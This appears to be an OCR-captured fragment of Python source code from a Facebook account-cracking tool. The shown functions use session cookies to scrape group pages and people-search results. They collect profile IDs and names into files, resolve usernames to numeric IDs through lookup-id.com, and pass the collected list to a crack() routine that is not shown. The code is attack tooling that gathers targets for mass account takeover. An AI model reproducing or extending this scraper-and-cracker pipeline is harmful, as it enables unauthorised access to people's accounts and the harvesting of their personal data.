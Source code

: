                     if "profile.php" in ogeh.get("href"):
                        a="".join(bs4.re.findall("profile\.php\?id=(.*?)&",ogeh.get("href")))
                        if len(a)==0:continue
                        elif a in _azimvau_dapunta_(self.fl).read():continue
                        else:_azimvau_dapunta_(self.fl,"a+").write("%s•%s\n"%(a,ogeh.text));continue
                    else:
                        a="".join(bs4.re.findall("/(.*?)\?",ogeh.get("href")))
                        if len(a)==0:continue
                        elif a in _azimvau_dapunta_(self.fl).read():continue
                        else:_azimvau_dapunta_(self.fl,"a+").write("%s•%s\n"%(a,ogeh.text))
            except:continue
        for i in r.find_all("a",href=True):
            if "See More Posts" in i.text:
                while True:
                    try:self.dump_username("https://m.facebook.com/"+i.get("href"));break
                    except Exception as e:print('\r%s [%s!%s] %sREPEAT'%(M,P,M,M));continue
    def dump_id(self, url):
        r=bs4.BeautifulSoup(_req_get_(url,cookies=self.cookies,headers=header_grup).text,"html.parser");print("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(self.fl).read().splitlines())), end=' ');sys.stdout.flush()
        for i in r.find_all("h3"):
            try:
                if len(bs4.re.findall("\/",i.find("a",href=True).get("href")))==1:
                    ogeh=i.find("a",href=True)
                    if "profile.php" in ogeh.get("href"):
                        a="".join(bs4.re.findall("profile\.php\?id=(.*?)&",ogeh.get("href")))
                        if len(a)==0:continue
                        elif a in _azimvau_dapunta_(self.fl).read():continue
                        else:_azimvau_dapunta_(self.fl,"a+").write("%s•%s\n"%(a,ogeh.text));continue
                    else:
                        a="".join(bs4.re.findall("/(.*?)\?",ogeh.get("href")))
                        if len(a)==0:continue
                        elif a in _azimvau_dapunta_(self.fl).read():continue
                        else:_azimvau_dapunta_(self.fl,"a+").write("%s•%s\n"%(_get_id_(a),ogeh.text))
            except:continue
        for i in r.find_all("a",href=True):
            if "See More Posts" in i.text:
                while True:
                    try:self.dump_id("https://m.facebook.com/"+i.get("href"));break
                    except Exception as e:print('\r%s [%s!%s] %sMengulangi'%(M,P,M,P));continue


def _get_id_(username):
    url = "https://lookup-id.com/#"
    with _req_ses_ as dev:
        payload = {"fburl": "https://m.facebook.com/{}".format(username), "check": "Lookup"}
        if "facebook" in username:payload = {"fburl": username, "check": "Lookup"}
        data_dev = dev.post(url, data=payload).content;sop_ = par(data_dev, "html.parser");id_ = sop_.find("span", id="code");user_get_id = id_.text
        return user_get_id


def dump_name(_azimvau_):
    print('%s [%s•%s] %sEXAMPLE : kurd'%(H,P,H,K));__name__ = _cici_azimvau_('%s [%s•%s] %sENTER NAME : '%(H,P,H,K)).split(',');_file_ = 'dump_name.json'
    try:os.remove(_file_)
    except:pass
    for _name_ in __name__:_url_ = "https://mbasic.facebook.com/search/people/?q="+_name_;cari_nama(_file_,_azimvau_,_url_)
    _buka_file_ = _azimvau_dapunta_(_file_,'r').read().splitlines();print("\n%s [%s•%s] %sTOTAL ID : %s"%(H,P,H,K,str(len(_buka_file_))))
    return crack(_file_)
def cari_nama(_file_,_cookies_,_url_):
    _azimvau_dapunta_(_file_,"a+");_req_ses_dev_ = bs4.BeautifulSoup(_req_get_(_url_, cookies=_cookies_,headers=header_nama).text,"html.parser")